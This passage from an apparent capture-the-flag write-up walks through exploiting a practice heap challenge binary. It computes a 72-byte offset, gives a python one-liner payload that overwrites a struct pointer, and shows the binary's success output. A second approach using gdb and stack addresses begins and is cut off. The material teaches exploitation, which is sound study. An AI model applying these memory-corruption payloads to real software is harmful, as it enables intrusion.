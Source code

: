 So we have the address that the value is stored at, 0x0804c1a4. Now we need to figure out the offset needed to reach vega->ion. We know that our offset starts at 0x804c200, and it should be 56 bytes after 0x804c210 (because the ion pointer is four bytes, and the last thing declared in the struct). 

```
0x804c210 + 56 = 0x804c248
0x804c248 - 0x804c200 = 72
```

So if our math is correct, the offset needed to reach vega->ion is 72 characters. The program prints out vega->ion as a pointer if we mess up so we can see what happened, so let's try to just give it 72 characters followed by the 0x0804c1a4 address.

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h4$ python -c 'print "0"*72 + "\xa4\xc1\x04\x08"' | ./h4
Where do you want to point the James Webb Space Telescope?
Wow while managine to not do your research, you discovered life on another planet. I am genuinely surprised. Level Cleared!
```

Just like that, we pwned the binary using a use after free exploit. However there is another way we could pwn it. There are two places in the program's memory that stores the value we need, and we already pointed to one of them. We could overflow the pointer to point to the int solar_wind itself, that way when the if then statment runs it will be effictively checking if solar_wind is equal to solar_wind. First we will need to find the relative address of sloar_wind on the stack. Let's try looking at the assembly code for the if then statement.

```
   0x08048732 <+359>:   mov    eax,DWORD PTR [ebp-0x18]
   0x08048735 <+362>:   mov    eax,DWORD PTR [eax+0x38]
   0x08048738 <+365>:   mov    eax,DWORD PTR [eax]
   0x0804873a <+367>:   cmp    eax,DWORD PTR [ebp-0x1c]
```

So looking at this assembly, the eax register is being compared against the value at ebp-0x1c. The value being moved into the eax register looks like a drereferenced pointer, so let's set a breakpoint for main+367 and see what ebp-0x1c holds.

```
gdb-peda$ b *main+367
Breakpoint 1 at 0x804873a
gdb-peda$ r
Starting program: /Hackery/escape/heap_exp/h4/h4 
753951
Where do you want to point the James Webb Space Telescope?
```

One wall of text later...

```
Breakpoint 1, 0x0804873a in main ()
gdb-peda$ x/d $ebp-0x1c
0xffffd01c: 45
```

So that decimal there matches what we would expect, so it probably is the value were looking for. It is stored at the address 0xffffd01c in gdb. However since stack addresses change, when we run it outside of gdb we will have a different address however it will be close to it. Let's try pushing addresses close to 0xffffd01c to vega->ion and see if we find the right address.

